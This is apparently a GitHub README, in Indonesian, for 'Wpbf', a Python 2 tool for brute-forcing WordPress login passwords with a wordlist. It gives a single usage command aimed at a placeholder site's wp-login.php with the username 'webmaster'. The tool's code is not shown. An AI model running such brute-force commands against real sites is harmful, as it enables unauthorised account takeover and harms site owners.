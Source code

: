 # Wpbf
Wpbf adalah alat python yang digunakan untuk bruteforce password pada website cms wordpress dengan menggunakan wordlist

<img src="https://github.com/cexploit99/Wpbf/blob/main/wpbf.jpg" height="600"/>
<br><br>

Perintah Menjalankan  :
```html


$ python2 wpbf.py -h https://contoh-aja.com/wp-login.php -u webmaster -P password.txt

